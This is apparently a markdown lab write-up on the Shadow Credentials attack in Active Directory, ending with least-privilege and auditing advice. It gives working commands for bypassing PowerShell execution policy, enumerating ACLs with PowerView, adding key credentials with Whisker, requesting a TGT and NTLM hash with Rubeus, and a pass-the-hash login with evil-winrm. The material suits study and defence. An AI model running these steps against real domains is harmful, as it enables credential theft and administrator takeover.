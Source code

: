 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
        - [Notes~](#Notes~)
          - [Objectives](#Objectives)
  - [Understanding Active Directory](#Understanding\Active\Directory)
  - [Windows Hello for Business (WHfB)](#Windows\Hello\for\Business\(WHfB))
  - [Enumeration with PowerView](#Enumeration\with\PowerView)
  - [Exploiting GenericWrite Privilege](#Exploiting\GenericWrite\Privilege)
  - [Obtaining TGT with Rubeus](#Obtaining\TGT\with\Rubeus)
  - [Conducting Pass-the-Hash Attack](#Conducting\Pass-the-Hash\Attack)
  - [Conclusion](#Conclusion)

## Table of Contents

        - [Notes~](#Notes~)
          - [Objectives](#Objectives)
  - [Understanding Active Directory](#Understanding\Active\Directory)
  - [Windows Hello for Business (WHfB)](#Windows\Hello\for\Business\(WHfB))
  - [Enumeration with PowerView](#Enumeration\with\PowerView)
  - [Exploiting GenericWrite Privilege](#Exploiting\GenericWrite\Privilege)
  - [Obtaining TGT with Rubeus](#Obtaining\TGT\with\Rubeus)
  - [Conducting Pass-the-Hash Attack](#Conducting\Pass-the-Hash\Attack)
  - [Conclusion](#Conclusion)


##### Notes~
`msDS-KeyCredentialLink` is an attribute used by the Domain Controller to store the public key in WHfB for enrolling a new user device such a computer. In short, each user object in the Active Directory database will have its public key stored in this unique attribute

1. (TPM) - Public-Private key pair generation: The TPM creates a public-private key pair for the user's account when they enroll. It's crucial to remember that the private key never leaves the TPM and is never disclosed.
2. Client certificate request
###### Objectives
- Understanding Active Directory
- Introduction to Windows Hello for Business
- Prerequisites for exploiting GenericWrite privilege
- How the Shadow Credentials attack works
- How to exploit the vulnerability
## Understanding Active Directory
- **AD**: A centralized authentication system in Windows environments.
- **Domain Controller (DC)**: Manages data storage, authentication, and authorization ithin a domain.
## Windows Hello for Business (WHfB)
- Replaces traditional passwords with cryptographic keys.
- Uses **msDS-KeyCredentialLink** attribute in AD to store public keys.
- Authentication process involves authorization, certificate generation, and authentication.
## Enumeration with PowerView
1. **Navigate to Tools Directory**:
`cd C:\Users\hr\Desktop`
2. **Bypass Execution Policy**:
`powershell -ep bypass`
3. **Load PowerView Script**:
`. .\PowerView.ps1`
4. **Enumerate Privileges**:
`Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights`
## Exploiting GenericWrite Privilege
1. **Using Whisker**:
- Add command:
 `.\Whisker.exe add /target:VULNERABLE_USER`
- Replace `VULNERABLE_USER` with the target user from enumeration.
## Obtaining TGT with Rubeus

1. **Generate TGT Request**:
- Use the output from Whisker to create the command.
- Syntax:
`Rubeus.exe asktgt /user:USER /certificate:CERT /password:PASSWORD /domain:DOMAIN /dc:DOMAIN_CONTROLLER /getcredentials /show`

- Replace `USER`, `CERT`, `PASSWORD`, `DOMAIN`, and `DOMAIN_CONTROLLER` with appropriate values.
## Conducting Pass-the-Hash Attack
1. **Using Evil-WinRM**:
    - Command: `evil-winrm -i MACHINE_IP -u Administrator -H NTLM_HASH`
    - Replace `MACHINE_IP` and `NTLM_HASH` with the target machine's IP and the NTLM hash obtained.
## Conclusion
- Emphasize the principle of least privilege in AD.
- Regularly audit and review permissions to prevent such vulnerabilities.

